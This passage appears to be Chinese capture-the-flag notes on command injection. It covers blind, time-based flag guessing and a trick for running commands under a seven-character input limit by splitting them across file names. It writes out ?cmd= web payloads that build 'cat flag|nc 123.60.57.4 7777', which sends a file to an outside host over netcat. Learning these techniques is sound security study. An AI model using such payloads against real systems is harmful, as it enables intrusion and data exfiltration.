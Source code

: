 ## 盲注

```shell
#if [ $(cat flag | awk NR==2 |cut -c 1 ) == F];then echo "right";fi
```

```shell
#if [ $(cat flag | awk NR==2 |cut -c 1 ) == F];then sleep 1;fi
```

fi表示结束

# 8.长度限制绕过

## 基础知识：

**\>符号和\>>符号**

\>表示直接替换

\>>表示追加

**ls -t **

按时间顺序排列

**sh命令** 从文件中读取目录

**dir * 和rev命令** 

$(dir *)如果第一个文件名是命令的话，会当做命令来执行

rev 可以反转文件中的每一行的内容

## 长度为7的绕过

希望执行 cat flag|nc 123.60.57.4 7777

**步骤一**：创建文件

```
?cmd=>7777
?cmd=>\ \\
?cmd=>4\\
?cmd=>57.\\
?cmd=>60.\\
?cmd=>123.\\
?cmd=>c\ \\
?cmd=>\|n\\
?cmd=>flag\
?cmd=>t\ \\
?cmd=>ca\\
```

**步骤二：**将文件名按顺序写入到文件
